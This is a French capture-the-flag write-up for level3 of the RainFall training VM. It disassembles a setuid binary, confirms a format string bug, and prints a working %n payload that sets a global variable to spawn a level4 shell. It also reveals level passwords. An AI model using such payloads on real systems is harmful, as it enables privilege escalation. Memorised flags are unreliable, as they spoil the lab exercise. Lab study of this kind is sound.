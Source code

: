 # LEVEL 3

### Reconnaissance

On se connection au level3 via le password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```
level3@192.168.56.106's password: 
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$ ls
level3
level3@RainFall:~$ file level3 
level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
```

On continue dans la meme lancer avec un binaire a corrompre.

On le rappatri sur notre poste afin de le désassembler avec des outils un peu plus confortable:
```
[0x080483f0]> pdf@sym.v
            ; CALL XREF from main @ 0x8048520
┌ 118: sym.v ();
│           ; var char *format @ ebp-0x208
│           ; var size_t size @ esp+0x4
│           ; var FILE *nitems @ esp+0x8
│           ; var FILE *stream @ esp+0xc
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      81ec18020000   sub esp, 0x218
│           0x080484ad      a160980408     mov eax, dword [obj.stdin]  ; obj.stdin__GLIBC_2.0
│                                                                      ; [0x8049860:4]=0
│           0x080484b2      89442408       mov dword [nitems], eax     ; FILE *stream
│           0x080484b6      c74424040002.  mov dword [size], 0x200     ; [0x200:4]=-1 ; 512 ; int size
│           0x080484be      8d85f8fdffff   lea eax, dword [format]
│           0x080484c4      890424         mov dword [esp], eax        ; char *s
│           0x080484c7      e8d4feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x080484cc      8d85f8fdffff   lea eax, dword [format]
│           0x080484d2      890424         mov dword [esp], eax        ; const char *format
│           0x080484d5      e8b6feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x080484da      a18c980408     mov eax, dword [obj.m]      ; [0x804988c:4]=0
│           0x080484df      83f840         cmp eax, 0x40               ; 64
│       ┌─< 0x080484e2      7534           jne 0x8048518
│       │   0x080484e4      a180980408     mov eax, dword [obj.stdout] ; obj.stdout__GLIBC_2.0
│       │                                                              ; [0x8049880:4]=0
│       │   0x080484e9      89c2           mov edx, eax
│       │   0x080484eb      b800860408     mov eax, str.Wait_what      ; 0x8048600 ; "Wait what?!\n"
│       │   0x080484f0      8954240c       mov dword [stream], edx     ; FILE *stream
│       │   0x080484f4      c74424080c00.  mov dword [nitems], 0xc     ; [0xc:4]=-1 ; 12 ; size_t nitems
│       │   0x080484fc      c74424040100.  mov dword [size], 1         ; size_t size
│       │   0x08048504      890424         mov dword [esp], eax        ; const void *ptr
│       │   0x08048507      e8a4feffff     call sym.imp.fwrite         ; size_t fwrite(const void *ptr, size_t size, size_t nitems, FILE *stream)
│       │   0x0804850c      c704240d8604.  mov dword [esp], str.bin_sh ; [0x804860d:4]=0x6e69622f ; "/bin/sh" ; const char *string
│       │   0x08048513      e8a8feffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from sym.v @ 0x80484e2
│       └─> 0x08048518      c9             leave
└           0x08048519      c3             ret
```

On voit qu'il compare eax (obj.m) avec 64 et selon le résultat, il prend ou non le jmp.

### Exploitation

Nous allons testé la présence de la vulnérabilité : Format string

Divers tutoriels et exemples qui nous servirons pour tous les formats strings du projet:
-  <a href="https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf">exploit-db</a>
-  <a href="https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf">crypto.standfort</a>
-  <a href="https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf">zenk-security</a>
-  <a href="https://www.hacktion.be/format-strings/">hacktion</a>

Pour faire simple, les format strings peuvent être utilisées de différentes manières.
Il est possible de :
- Lire du contenu en mémoire (%x)
- Ecrire du contenu en mémoire ( write-what-where ) (%n -> sur 4 bytes)
- Ecrire du contenu en mémoire ( write-what-where ) (%hn -> sur 2 bytes)

```
level3@RainFall:~$ python -c 'print "|%x|" * 50'|./level3 
|200||b7fd1ac0||b7ff37d0||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c||7c78257c|
level3@RainFall:~$ 
```
On arrive a print les adresses de la stack, le programme est vulnérable.

Il faut donc faire en sorte de mettre la global m a 64:
```
(gdb) i variables 
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
[...]
```

Maintenant, nous avons l'adresse de m, on la converti pour notre payload:
```
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x0804988c)
'\x8c\x98\x04\x08'
```

On regarde la position du buffer dans la stack
```
level3@RainFall:~$ (python -c 'print "AAAA" + " %x" * 20')|./level3 
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 a
```
On est a la 4eme position


Ensuite on peux préparé notre payload:
```
[ADRESSE][60 char][%<position dans la stack>$n]

[\x8c\x98\x04\x08]["A" * 60][%4$n]
```

Et le lancer:
```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat)|./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
whoami
level4
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)

```

Il est possible de faire d'une autre manière:
```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"'; cat)|./level3
```
Les explications seront pour le prochaine writeup :)


